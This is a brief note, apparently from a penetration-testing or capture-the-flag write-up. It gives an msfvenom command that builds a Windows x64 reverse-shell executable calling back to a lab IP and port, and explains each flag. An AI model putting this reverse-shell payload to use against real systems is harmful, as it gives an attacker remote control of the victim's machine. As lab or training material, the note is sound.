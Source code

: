 ## in order for some of our exploit to work we need a payload from msfvenom
```
command: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe


WHERE:
LHOST= your ip address
LPORT = The port to listern on
a     = architecture (x64 or x32)
o     = where we can save our payload
p     = specifying the plaform where we will need to send our exploit to
```
